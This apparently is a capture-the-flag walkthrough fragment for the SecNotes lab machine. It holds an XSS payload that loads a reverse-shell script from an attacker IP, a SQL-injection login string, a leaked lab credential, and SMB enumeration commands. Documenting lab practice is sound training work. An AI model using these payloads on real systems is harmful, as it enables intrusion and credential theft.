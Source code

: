 - Python server to transfer file:
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m http.server
```

- Note to submit in webapp to grab file:
```
#"><script src="http://10.10.14.4/revshell.php"></script>
```
- Not successful
- Following walkthrough below

# Foothold 
- gain shell via exploit
- Create an account via sign in page with `'OR 1 OR'` as username and password
- Login, and see all notes
- We can now see Tyler's creds `tyler:92g!mA8BGjOirkL%OG*&` under the note `new site`
- Enumerated shares
```
┌──(root㉿kali)-[~/Downloads]
└─# smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
 SMBMap - Samba Share Enumerator v1.10.2 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authentidated session(s)                                                      
                                                                                                                                            
[+] IP: 10.10.10.97:445 Name: secnotes.htb              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```

- Try `smbclient`
```
┌──(root㉿kali)-[~/Downloads]
└─# smbclient \\\\10.10.10.97\\new-site -U tyler
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> 
```
